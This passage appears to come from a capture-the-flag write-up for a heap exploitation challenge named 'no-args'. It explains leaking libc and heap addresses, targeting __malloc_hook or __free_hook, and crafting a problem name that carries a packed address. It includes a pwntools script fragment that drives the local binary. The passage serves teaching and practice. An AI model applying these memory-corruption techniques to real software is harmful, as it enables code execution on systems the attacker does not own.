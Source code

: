 After leaking libc, you'll be able to write into function pointers like `__malloc_hook` or `__free_hook` since you'll know their location in memory.

First up, we need a name that is 24 bytes or less (including the `NULL` terminator), and the last 8 bytes are actually an address of a valid name. This name will be fed into `strdup()`, so any `NULL` bytes must occur at the end of the string. We already know that `0x602030` is an address that we can write-to using our memory-write primitive, and when written in little-endian form contains only `NULL` bytes at the end, which means it'll pass cleanly through `strdup()`. **Let's nominate a problem with a specially crafted name**:

```python
#!/bin/env python3
from pwn import *

aout = ELF("no-args")

p = process("./no-args")

def echo(str):
    print(str)
    p.sendline(str)
    _ = "".join(map(chr, p.recvline(timeout=2))).rstrip()
    print(_)
    return _

def wait_prompt():
    print("".join(map(chr, p.recvuntil("> "))).rstrip())

def nominate(name):
    wait_prompt()
    echo("1")
    wait_prompt()
    echo(name)

# Everything after "list" is writable and EMPTY. We have a blank canvas.
emptyblock = aout.symbols["list"] + 8 # 0x602030
nominate(b'\xff'*16 + p64(emptyblock)) #nominates "\xFF\xFF...\x30\x20\x60\x00"
```

Next up, we need a dummy `problem_t` which will have it's name pointer modified to point at a heap address. **Nominate a dummy problem**:

```python
nominate("dummy")
```

As a final nomination, you need a another allocation after "dummy". As outlined above, you'll be modifying the `name` pointer of dummy's `problem_t` to point to the user-data of the next chunk in memory. By allocating a new `problem_t`, the first part of this user-data will be a pointer to a string on the heap. As such, printing the name of the "dummy" problem (which will no longer be named dummy) will reveal the heap address. Since `list` will be searched for "no-args" every time you use the memory write primitive, and since there are no restrictions on duplicates, **Nominate "no-args" again**. This will cause "no-args" to appear in the list twice, however being at the front of the list is advantageous, as `find_problem()` won't have to traverse very far, giving you some flexibility for the rest of the list items.
